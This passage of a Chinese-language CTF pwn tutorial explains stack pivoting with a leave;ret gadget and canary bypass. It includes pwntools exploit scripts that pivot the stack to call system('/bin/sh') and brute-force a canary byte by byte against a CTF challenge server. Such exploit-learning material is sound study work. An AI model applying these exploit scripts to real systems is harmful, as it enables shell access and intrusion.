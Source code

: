 


#### 栈迁移

先去看汇编基础

 如图这是我们栈迁移的原理图![img](https://img2020.cnblogs.com/blog/2547408/202109/2547408-20210916190235308-2007478208.png) 

栈迁移能被实施的条件有二：

1. 存在 **leave ret** 这类gadget指令
2. 存在可执行shellcode的内存区域

要完成栈迁移的攻击结构，就要覆盖原栈上 **ret**为 **leave** **ret** gadget的地址 

```python
#例子
elf = ELF('./pwn')
system = elf.plt['system']
leave = 0x08048766
payload = 'a' * 0x24 + 'show'
io.recvuntil('codename:')
io.send(payload)
io.recvuntil('show')
ebp = u32(io.recv(4).ljust(4,'\x00'))
#gdb.attach(io)
print 'ebp='+hex(ebp) 
buf = ebp - 0x38 
payload = (p32(system) + 'aaaa' + p32(buf + 12) + '/bin/sh\x00').ljust(0x28,'a') + p32(buf-4) + p32(leave)
io.send(payload) 
```

 ![img](https://img2020.cnblogs.com/blog/2547408/202109/2547408-20210916192136789-1878432503.png) 

### 保护绕过

#### canary：

canary爆破脚本：

```python
#32位
canary = ''

for i in range(4):
   for c in range(0xFF):
      #io = process('./pwn')

      io = remote('pwn.challenge.ctf.show',28173)
      io.sendlineafter('>','-1')
      payload = 'a'*0x20 + canary + p8(c)
      io.sendafter('$ ',payload)
      io.recv(1)
      ans = io.recv()
      print ans

      if 'Canary Value Incorrect!' not in ans:
         print 'The index({}),value({})'.format(i,c)
         canary += p8(c)
         break

      else:
          print 'tring... ...'

      io.close()
```